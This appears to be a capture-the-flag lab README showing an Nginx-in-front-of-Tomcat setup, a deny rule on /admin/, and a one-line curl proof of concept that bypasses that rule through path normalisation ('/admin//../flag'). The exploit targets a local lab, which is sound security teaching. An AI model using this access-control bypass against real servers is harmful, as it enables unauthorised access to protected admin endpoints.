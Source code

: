 ### Nginx + Tomcat

Try to access http://backend:8080/admin/flag


### Usage

Run
```
docker-compose up
```

Go http://127.0.0.1:8083/


### Hint
Nginx default.conf
```
location /admin/ {
    deny all;
    return 403;
}

location / {
    proxy_pass	http://backend;
}
```

### POC
``` bash
curl --path-as-is 'http://127.0.0.1:8083/admin//../flag'
```